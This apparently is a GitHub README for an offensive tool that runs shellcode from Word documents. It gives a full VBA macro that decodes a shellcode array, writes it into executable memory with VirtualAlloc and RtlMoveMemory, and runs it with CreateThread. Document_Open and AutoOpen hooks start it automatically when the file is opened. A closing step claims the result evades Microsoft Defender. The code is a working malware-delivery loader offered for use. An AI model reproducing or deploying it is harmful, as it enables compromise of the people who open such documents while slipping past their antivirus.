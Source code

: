 ## VBA_Runner
- Place XOR shellcode into vba file.
- Copy or input file into macro on your word doc or docm.

```powershell
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr

    buf = Array(SHELLCODE)

For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter

    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
<br>

## Purge

- Download the repo below and build with visual studio.
- Purge the word doc/docm you just created with the code above.
- As of 27/02/2022 18:10 this is undetectable by defender.
